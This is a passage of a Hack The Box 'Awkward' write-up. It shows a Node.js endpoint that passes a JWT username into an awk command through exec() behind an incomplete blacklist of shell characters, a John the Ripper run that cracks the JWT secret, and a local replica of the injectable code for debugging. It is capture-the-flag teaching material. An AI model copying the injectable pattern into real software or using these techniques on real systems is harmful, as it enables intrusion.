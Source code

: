 User in the token seems to be thrown through Bad-character check, however not all signs appear to be on the blacklist.

```
const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
...
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
...
```

## Crack that JWT

```
┌──(luka㉿yokai)-[~/htb/boxes/awkward]
└─$ john jwt_enc --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 ASIMD 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123beany123
```

Apparently takes `token` parameter JWT or HR user, which makes exploitation easier.


I've written simple program that helped me with debugging. It's optional and not really needed, but i'd like to mention that ModeJS / ExpressJS app can get running in 15 Minutes or even less.

```javascript
const express = require('express')
const cookieParser = require("cookie-parser");
const jwt = require("jsonwebtoken");
const exec = require('child_process').exec;
const app = express()
const port = 3000
app.use(cookieParser());
app.get('/', (req, res) => {
  res.send('Hello World!')
})

app.get('/api/all-leave', (req, res) => {

  const user_token = req.cookies.token
  var authFailed = false
  var user = null
  var TOKEN_SECRET="123beany123"

  if(user_token) {
    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if(!decodedToken.username) {
      authFailed = true
    }
    else {
      user = decodedToken.username
    }
  }

  if(authFailed) {
    return res.status(401).json({Error: "Invalid Token"})
  }

  if(!user) {
    return res.status(500).send("Invalid user")
  }

  const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
```